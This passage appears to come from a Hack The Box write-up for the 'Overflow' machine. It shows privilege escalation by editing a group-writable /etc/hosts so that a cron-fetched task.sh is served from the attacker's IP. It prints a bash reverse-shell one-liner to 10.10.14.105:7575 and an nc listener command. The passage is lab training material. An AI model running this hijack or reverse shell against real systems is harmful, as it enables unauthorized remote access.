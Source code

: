```
developer@overflow:~$ ls -la /opt/commontask.sh
-rwxr-x---+ 1 tester tester 109 May 28 08:47 /opt/commontask.sh
```

Looking at our groups we are part of the network group which is allowed to modify the `/etc/hosts` file.

```
developer@overflow:~$ id
uid=1001(developer) gid=1001(developer) groups=1001(developer),1002(network)
developer@overflow:~$ ls -la /etc/hosts
-rwxrw-r-- 1 root network 201 Oct 24 06:00 /etc/hosts
```

Checking `/etc/nsswitch.conf` we see `/etc/hosts` is indeed used as means of resolving hostnames.

```
developer@overflow:~$ cat /etc/nsswitch.conf
# /etc/nsswitch.conf
#
# Example configuration of GNU Name Service Switch functionality.
# If you have the `glibc-doc-reference' and `info' packages installed, try:
# `info libc "Name Service Switch"' for information about this file.

passwd:         compat systemd
group:          compat systemd
shadow:         compat
gshadow:        files

hosts:          files dns
networks:       files

protocols:      db files
services:       db files
ethers:         db files
rpc:            db files

netgroup:       nis
```

This means we can simply add a hostname for `taskmanage.overflow.htb` pointing to our ip where we serve a `task.sh` on port 80 containing a reverse shell.

We copy the `index.html` to `task.sh`, start our python web server and ncat again.

`task.sh`
```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.105/7575 0>&1'
```

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```
